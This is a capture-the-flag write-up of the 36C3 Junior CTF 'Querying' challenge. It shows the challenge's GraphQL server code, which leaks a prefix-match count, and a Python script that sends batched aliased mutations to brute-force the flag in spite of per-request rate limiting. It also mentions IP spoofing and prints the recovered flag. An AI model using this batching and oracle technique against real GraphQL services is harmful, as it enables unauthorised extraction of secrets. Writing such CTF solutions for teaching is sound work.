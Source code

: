 ```yaml
---
title: 36C3 Querying
author: Marius Kimmina
date: 2020-01-01 14:10:00 +0800
categories: [CTF, Web]
tags: [36C3, GraphQL]
published: true
---
```



### 0x0. Introduction
This Challenge was part of the *36C3 Junior CTF*. It was a "Web" challenge with a difficulty rating of "Medium", you were given an URL for the live challenge server and also a copy of the server (with a fake flag obv) as a Docker Container to run locally to test your exploits. The local copy was needed because the real server would give you an timeout after every request to make bruteforcing the solution harder. Sadly I was not able to solve this challenge before the timeup to get some points for it but atleast I was able to complete it shortly afterwards for my own sake.

### 0x1. Challenge Description
```
In German, Graf means count. Anyway I'm certain he likes pie. Who doesn't? He also won't give you the Flag as he keeps track of every request. Nothing to see here, please move along. http://199.247.4.207:4000/
```
There was also a file for the local copy attached which looked like this:

.  
├── dist.tar.gz  
├── docker-compose.yml  
├── Dockerfile  
├── package.json  
├── package-lock.json  
├── prisma  
│   ├── datamodel.prisma  
│   ├── prisma.yml  
│   └── seed.graphql  
├── src  
│   ├── generated  
│   │   └── prisma-client  
│   │       ├── index.d.ts  
│   │       ├── index.js  
│   │       └── prisma-schema.js  
│   ├── index.js  
│   └── schema.graphql  
└── yarn.lock  

### 0x2. Looking at the source Code

The most important file for this challenge was the index.js which contained the following code:

```js
const { GraphQLServer } = require('graphql-yoga')
const LRU = require('lru-cache')

const { prisma } = require('./generated/prisma-client')

const MAX_WAIT = 10 * 1000 // 10 seconds

const FLAG = "junior-THIS_IS_A_DUMMY"
const FLAG_REGEX = /$junior-[a-zA-Z0-9_]24^/.compile()

const requestsPerClient = new LRU({
  max: 16 * 1024,
  maxAge: 1000 * 60
})

function bruteforceProtection(context) {
  const ip = context.request.ip
  if (context.request.headers["admin"]) {
    console.log("ip", ip)
    let requests = requestsPerClient.get(ip) || 0
    const waitTime = 15 * requests * 1000
    requestsPerClient.set(ip, requests + 1)
    return new Promise(
      resolve => setTimeout(
        () => (console.log("finished", ip, waitTime) || resolve()), waitTime
      )
    )
  }
  return Promise.resolve()
}

const resolvers = {
  Query: {
    feed: (parent, args, context) => {
      return context.prisma.posts({ where: { published: true } })
    },
    drafts: (parent, args, context) => {
      return context.prisma.posts({ where: { published: false } })
    },
    post: (parent, { id }, context) => {
      return context.prisma.post({ id })
    },
  },
  Mutation: {
    checkFlag(parent, {flag}, context) {
      if (!context.request.headers["admin"]) throw "this got changed!"
      if (FLAG_REGEX.exec(flag) && flag === FLAG) return FLAG.length
      let i = 0
      while (flag[i] === FLAG[i]) i++
      return i
    },
    createDraft(parent, { title, content }, context) {
      return context.prisma.createPost({
        title,
        content,
      })
    },
    deletePost(parent, { id }, context) {
      return context.prisma.deletePost({ id })
    },
    publish(parent, { id }, context) {
      return context.prisma.updatePost({
        where: { id },
        data: { published: true },
      })
    },
  },
}

const server = new GraphQLServer({
  typeDefs: './src/schema.graphql',
  resolvers,
  context: async (request, response, fragmentReplacements) => ({
    ...request,
    prisma,
    console: await bruteforceProtection(request)
  }),
})

server.start(() => console.log('Server is running on http://localhost:4000'))
```

From the "FLAG_REGEX" we know that the Flag consist of "Junior-" and 24 Characters containing lowercase, uppercase, digits and underscores.
We can use the "Check Flag" function which will tell us how many letters of our input match the actual Flag. So we could give the Webserver an Input like this:

```js
mutation { 
    checkFlag(flag: "j")
}
```

The Server would then return "1".  
This is somewhat screaming for a bruteforce, you can guess one letter at a time and as soon as the integer responds from the server increases you go for the next letter. But there is "BruteforceProtection" build into this which will give us an timeout after every request based on our IP. You could theoretically work around this protection by spoofing your IP after every request, which was some people acctaully did and I won't blame them, whatever works works. But there is another more interesting solution which I want to focus on here.

### 0x3. Solution

The catch is, in graphql you can provide multiple mutations at once. So it is possible to ask the Server for every possible character at a position in a single request. Such a request would look like this:

```js
mutation {
  name1: checkFlag(flag: "junior-A"),
  name2: checkFlag(flag: "junior-B"),
  ...
}
```


Since we need to get 24 characters with this approach we need 24 requests to the server to get the full Flag, which still took a bit but returned the flag in a somewhat reasonable amount of time. 
I came up with the following python Script to get the Flag:

```py
import requests
import operator

url = "http://199.247.4.207:4000/"
header = {
    "content-type": "application/json",
    "admin": "true"
}

base_check = 'checkFlag(flag: "junior-'
name = "name"
possible = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '_'
]

start_query = "mutation {\n"
end_query = "}"
number = 1
i = 0
while (i < 24):
    print("getting charakter " +  str(i))
    for letter in possible:
        start_query = start_query + name + str(number) + ":" + base_check + letter + '")' + "," + "\n"
        number = int(number) + 1
    i = i + 1
    number = 1
    start_query = start_query + end_query
    r = requests.post(url, json={"query": start_query}, headers=header)
    response = r.text
    data = r.json()["data"]
    correct = max(data.items(), key=operator.itemgetter(1))[0]
    right_character = correct[4:]
    base_check += possible[int(right_character)-1]
    start_query = "mutation {\n"
    print(base_check)
```

Flag: junior-Batching_Qu3r1e5_is_FUN1
